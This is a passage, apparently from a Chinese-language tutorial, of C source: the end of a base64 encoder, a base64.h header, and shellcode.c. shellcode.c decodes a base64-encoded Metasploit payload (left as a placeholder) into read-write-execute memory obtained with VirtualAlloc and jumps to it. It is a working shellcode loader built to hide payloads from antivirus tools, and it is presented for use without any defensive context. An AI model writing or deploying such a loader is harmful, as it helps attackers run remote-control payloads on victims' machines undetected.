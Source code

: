 ```
			*p++ = basis_64[((string[i + 1] & 0xF) << 2)];
		}
		//*p++ = '=';
	}

	*p++ = '\0';
	return p - encoded;
}


```

`base64.h`文件内容

```
#ifndef _BASE64_H_
#define _BASE64_H_

#ifdef __cplusplus
extern "C" {
#endif

	int Base64encode_len(int len);
	int Base64encode(char * coded_dst, const char *plain_src, int len_plain_src);

	int Base64decode_len(const char * coded_src);
	int Base64decode(char * plain_dst, const char *coded_src);

#ifdef __cplusplus
}
#endif

#endif //_BASE64_H_

```

shellcode.c
```
#include <Windows.h>
#include <stdio.h>
#include <string.h>

#include "base64.h"

unsigned char buf[] =
"msf base64 code here";

int main(int argc, const char * argv[]) {


	char str1[1000] = { 0 };
	Base64decode(str1, buf);

	//printf("%d  ", sizeof(str3));
	char *Memory;
	Memory = VirtualAlloc(NULL, sizeof(str1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, str1, sizeof(str1));
	((void(*)())Memory)();
	return 0;
}
```
